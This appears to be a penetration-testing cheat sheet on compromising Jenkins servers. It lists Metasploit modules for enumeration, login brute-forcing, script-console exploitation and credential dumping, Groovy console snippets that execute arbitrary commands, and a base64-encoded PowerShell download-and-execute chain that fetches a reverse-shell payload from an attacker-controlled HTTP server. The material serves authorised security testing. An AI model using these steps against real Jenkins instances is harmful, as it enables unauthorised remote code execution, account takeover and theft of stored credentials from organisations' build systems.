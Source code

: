 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like \(_/people_ or _/asynchPeople_, this lists the current users\) you can use:

```text
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```text
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or  _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may e ale to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](../../.gitbook/assets/image%20%28422%29.png)

## Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used \(even **usernames as passwords** or **reverse** usernames as passwords\).

```text
msf> use auxiliary/scanner/http/jenkins_login
```

## Exploiting Vulnerabilities

{% embed url="https://github.com/gquere/pwn\_jenkins" %}

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project \(obviously this will only work if you user is allowed to create a new project\).

1. Create a new project \(Freestyle project\)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell \(can be obtained using _unicorn_\). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

\*\*\*\*

Go to the projects and check **if you can configure any** of them \(look for the "Configure button"\):

![](../../.gitbook/assets/image%20%28228%29.png)

Or **try to access to the path** _**/configure**_ in each project \(example: /_me/my-views/view/all/job/Project0/configure_\).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](../../.gitbook/assets/image%20%2887%29.png)

Click on **Save** and **build** the project and your **command will be executed**.  
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do:  **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ \(triple double quotes\) to execute the payload.

**Another useful groovy script** is \(replace \[INSERT COMMAND\]\):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```text
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```text
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}

